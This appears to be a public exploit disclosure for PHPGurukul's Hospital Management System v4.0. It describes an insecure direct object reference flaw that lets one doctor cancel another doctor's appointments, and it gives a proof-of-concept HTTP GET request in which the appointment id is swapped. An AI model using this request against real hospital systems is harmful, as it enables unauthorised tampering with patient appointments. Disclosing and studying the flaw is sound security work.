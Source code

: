 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Phpgurukul
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to cancel the appointment that is managed by other doctor(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /hospital/hms/doctor/appointment-history.php?id=3(CHANGE HERE)&cancel=update HTTP/1.1
...
```


